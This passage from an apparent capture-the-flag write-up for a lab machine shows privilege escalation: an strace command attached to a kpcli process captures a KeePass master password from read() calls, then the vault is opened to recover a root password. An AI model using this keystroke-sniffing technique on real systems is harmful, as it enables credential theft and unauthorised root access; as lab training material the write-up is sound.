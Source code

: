 - `strace -p `ps -elf | grep -v 'pts' | awk '/kpcli/{print $4}'``

Run this some times, because the the keepass process get restartet and closed after some minutes. 

We see the password in the `read()` outptus

```
write(1, "Please provide the master passwo"..., 36) = 36
<SNIP>
read(0, "!", 8192)                      = 1
<SNIP>
read(0, "s", 8192)                      = 1
<SNIP>
read(0, "E", 8192)                      = 1
...
```

We got the password `!sEcUr3p4$$w0rd9` for the keepass login.

- `kpcli --kdb personal.kdbx`

```
WARNING: A KeePassX-style lock file is in place for this file.
         It may be opened elsewhere. Be careful of saving!
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
Root/
kpcli:/> cd Root/
kpcli:/Root> ls
=== Entries ===
0. food account                                            door.dash.local
1. GItea Admin account                                    git.mailroom.htb
2. gitea database password
3. My Gitea Account                                       git.mailroom.htb
4. root acc
kpcli:/Root> show root acc
kpcli:/Root> show 4

Title: root acc
Uname: root
 Pass: a$gBa3!GA8
  URL:
Notes: root account for sysadmin jobs

kpcli:/Root> quit
```

Login to root.

→ root.txt
